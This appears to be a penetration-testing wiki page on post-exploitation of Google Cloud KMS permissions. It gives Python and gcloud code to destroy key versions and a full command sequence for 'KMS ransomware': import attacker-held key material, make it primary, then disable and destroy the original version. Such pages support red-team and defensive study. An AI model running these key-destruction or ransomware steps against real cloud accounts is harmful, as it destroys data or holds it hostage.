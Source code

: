 # GCP - KMS Post Exploitation

## KMS

Find basic information about KMS in:

[[../gcp-services/gcp-kms-enum.md]]

### `cloudkms.cryptoKeyVersions.destroy`

An attacker with this permission could destroy a KMS version. In order to do this you first need to disable the key and then destroy it:

```python
# pip install google-cloud-kms

from google.cloud import kms

def disable_key_version(project_id, location_id, key_ring_id, key_id, key_version):
    """
    Disables a key version in Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key version name.
    key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

    # Call the API to disable the key version.
    client.update_crypto_key_version(request={'crypto_key_version': {'name': key_version_name, 'state': kms.CryptoKeyVersion.State.DISABLED}})

def destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version):
    """
    Destroys a key version in Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key version name.
    key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

    # Call the API to destroy the key version.
    client.destroy_crypto_key_version(request={'name': key_version_name})

# Example usage
project_id = 'your-project-id'
location_id = 'your-location'
key_ring_id = 'your-key-ring'
key_id = 'your-key-id'
key_version = '1'  # Version number to disable and destroy

# Disable the key version
disable_key_version(project_id, location_id, key_ring_id, key_id, key_version)

# Destroy the key version
destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version)
```

### KMS Ransomware

In AWS it's possible to completely **steal a KMS key** by modifying the KMS resource policy and only allowing the attackers account to use the key. As these resource policies doesn't exist in GCP this is not possible.

However, there is another way to perform a global KMS Ransomware, which would involve the following steps:

- Create a new **version of the key with a key material** imported by the attacker

```bash
gcloud kms import-jobs create [IMPORT_JOB] --location [LOCATION] --keyring [KEY_RING] --import-method [IMPORT_METHOD] --protection-level [PROTECTION_LEVEL] --target-key [KEY]
```

- Set it as **default version** (for future data being encrypted)
- **Re-encrypt older data** encrypted with the previous version with the new one.
- **Delete the KMS key**
- Now only the attacker, who has the original key material could be able to decrypt the encrypted data

#### Here are the steps to import a new version and disable/delete the older data:

```bash
# Encrypt something with the original key
echo "This is a sample text to encrypt" > /tmp/my-plaintext-file.txt
gcloud kms encrypt \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --plaintext-file my-plaintext-file.txt \
  --ciphertext-file my-encrypted-file.enc

# Decrypt it
gcloud kms decrypt \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --ciphertext-file my-encrypted-file.enc \
  --plaintext-file -


# Create an Import Job
gcloud kms import-jobs create my-import-job \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --import-method "rsa-oaep-3072-sha1-aes-256" \
  --protection-level "software"

# Generate key material
openssl rand -out my-key-material.bin 32

# Import the Key Material (it's encrypted with an asymetrict key of the import job previous to be sent)
gcloud kms keys versions import \
    --import-job my-import-job \
    --location us-central1 \
    --keyring kms-lab-2-keyring \
    --key kms-lab-2-key \
    --algorithm "google-symmetric-encryption" \
    --target-key-file my-key-material.bin

# Get versions
gcloud kms keys versions list \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key

# Make new version primary
gcloud kms keys update \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --primary-version 2

# Try to decrypt again (error)
gcloud kms decrypt \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --ciphertext-file my-encrypted-file.enc \
  --plaintext-file -

# Disable initial version
gcloud kms keys versions disable \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key 1

# Destroy the old version
gcloud kms keys versions destroy \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --version 1

```

### `cloudkms.cryptoKeyVersions.useToEncrypt` | `cloudkms.cryptoKeyVersions.useToEncryptViaDelegation`

```python
from google.cloud import kms
import base64

def encrypt_symmetric(project_id, location_id, key_ring_id, key_id, plaintext):
    """
    Encrypts data using a symmetric key from Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key name.
    key_name = client.crypto_key_path(project_id, location_id, key_ring_id, key_id)

    # Convert the plaintext to bytes.
    plaintext_bytes = plaintext.encode('utf-8')

    # Call the API.
    encrypt_response = client.encrypt(request={'name': key_name, 'plaintext': plaintext_bytes})
    ciphertext = encrypt_response.ciphertext

    # Optional: Encode the ciphertext to base64 for easier handling.
    return base64.b64encode(ciphertext)

# Example usage
project_id = 'your-project-id'
location_id = 'your-location'
key_ring_id = 'your-key-ring'
key_id = 'your-key-id'
plaintext = 'your-data-to-encrypt'

ciphertext = encrypt_symmetric(project_id, location_id, key_ring_id, key_id, plaintext)
print('Ciphertext:', ciphertext)
```

### `cloudkms.cryptoKeyVersions.useToSign`

```python
import hashlib
from google.cloud import kms

def sign_asymmetric(project_id, location_id, key_ring_id, key_id, key_version, message):
    """
    Sign a message using an asymmetric key version from Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key version name.
    key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

    # Convert the message to bytes and calculate the digest.
    message_bytes = message.encode('utf-8')
    digest = {'sha256': hashlib.sha256(message_bytes).digest()}

    # Call the API to sign the digest.
    sign_response = client.asymmetric_sign(name=key_version_name, digest=digest)
    return sign_response.signature

# Example usage for signing
project_id = 'your-project-id'
location_id = 'your-location'
key_ring_id = 'your-key-ring'
key_id = 'your-key-id'
key_version = '1'
message = 'your-message'

signature = sign_asymmetric(project_id, location_id, key_ring_id, key_id, key_version, message)
print('Signature:', signature)
```

### `cloudkms.cryptoKeyVersions.useToVerify`

```python
from google.cloud import kms
import hashlib

def verify_asymmetric_signature(project_id, location_id, key_ring_id, key_id, key_version, message, signature):
    """
    Verify a signature using an asymmetric key version from Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key version name.
    key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

    # Convert the message to bytes and calculate the digest.
    message_bytes = message.encode('utf-8')
    digest = {'sha256': hashlib.sha256(message_bytes).digest()}

    # Build the verify request and call the API.
    verify_response = client.asymmetric_verify(name=key_version_name, digest=digest, signature=signature)
    return verify_response.success

# Example usage for verification
verified = verify_asymmetric_signature(project_id, location_id, key_ring_id, key_id, key_version, message, signature)
print('Verified:', verified)
```

